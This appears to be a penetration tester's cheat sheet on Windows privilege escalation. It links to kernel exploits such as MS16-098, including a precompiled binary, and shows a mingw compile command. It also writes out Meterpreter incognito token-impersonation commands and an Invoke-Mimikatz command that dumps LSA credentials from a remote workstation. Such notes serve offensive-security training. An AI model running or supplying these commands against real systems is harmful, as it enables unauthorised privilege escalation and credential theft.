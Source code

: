 ### Kitrap0d

https://seclists.org/fulldisclosure/2010/Jan/341

### MS10-059

https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059

### MS16-098

https://www.exploit-db.com/exploits/41020

can compile with mingw-w64, eg.

```
i686-w64-mingw32-gcc 37755.c -o agos.exe -lws2_32
```

or you can download precompiled binaries:

Source: https://github.com/sensepost/ms16-098/tree/b85b8dfdd20a50fc7bc6c40337b8de99d6c4db80
Binary: https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe

## Linux subsystem for Windows
 
Payload all the things

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/f6b9d63bf8cbbb9a27be6338cd37725ca93f4eec/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md

## Token impersonation

https://academy.tcm-sec.com/courses/1154361/lectures/24797719

```
whoami /priv
```

incognito

```
meterpreter > load_incognito
meterpreter > list_tokens -u
meterpreter > impersonate_token domain\\user
```

```
Invoke-Mimikatz -Command '"privilege::debug" "LSADUMP::LSA /patch" exit' -Computer wks.domain.local
```


https://www.offensive-security.com/metasploit-unleashed/fun-incognito/

https://github.com/gtworek/Priv2Admin

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---impersonation-privileges
